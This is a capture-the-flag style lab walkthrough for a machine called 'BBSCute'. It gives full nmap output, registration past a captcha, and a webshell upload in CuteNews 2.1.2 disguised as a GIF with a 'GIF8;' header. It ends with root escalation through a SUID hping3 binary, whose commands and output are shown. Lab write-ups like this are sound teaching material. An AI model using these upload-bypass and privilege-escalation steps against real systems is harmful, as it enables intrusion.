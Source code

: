 # BBSCute
### Enumeration
Nmap shows a number of open ports:

```
# Nmap 7.92 scan initiated Tue Mar  8 17:53:50 2022 as: nmap -sC -sV -v -oN nmap/tcp.out -p- 192.168.52.128
Nmap scan report for 192.168.52.128
Host is up (0.00024s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: USER LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) PIPELINING TOP UTF8(USER) STLS UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: USER LOGIN-DELAY(10) PIPELINING TOP IMPLEMENTATION(Courier Mail Server) UTF8(USER) UIDL
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154
MAC Address: 00:50:56:BF:2C:E8 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visited both servers. The one on `88` had no page. Port `80` had an apache default install page. Then I ran gobuster on both the HTTP servers. The one on `88` doesn't seem to hold anything. The one on `80` had some files, including an `index.php` which was a login page. There was a button to register, so I registered an account, entering `test` as the value for all fields (`test@example.com` for the email). The captcha image did not show, so I took a look at the code in the devtools inspector. Hitting regenerate captcha, I could see the `src` of the captcha `img` tag changing, so I opened a new tab to visit that URL (`http://192.168.52.128/captcha.php?r=0.07921940943441075`) and copied the text-valued captcha and hit register. Success!

### Foothold

Hitting `Personal options`, there's an avatar upload, so I'll see if we can upload a reverse shell. Actually, googling the version of CuteNews that appears to be running (`2.1.2`), we see there's an exploit that takes advantage of exactly this vulnerability. We can use any webshell and place the value `GIF8;` on its own on the first line to trick the webserver into thinking the file is a GIF. We name the file `test.php` (the server doesn't appear to check extension) and upload successfully! Then we can right click the avatar and open in new tab to get access to the webshell. We run `id` to check it works, and when it does, we execute a reverse shell.

The user flag is in `/var/www`. There's one user home directory: `/home/fox`.

### Privilege Escalation

Running linpeas, it flags `hping3` as an executable SUID binary. Looking up this program on GTFO bins, we see we just need to execute it and then run `/bin/bash -p` at the prompt:

```
www-data@cute:/dev/shm$ hping3 
hping3> /bin/bash -p
bash-5.0# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```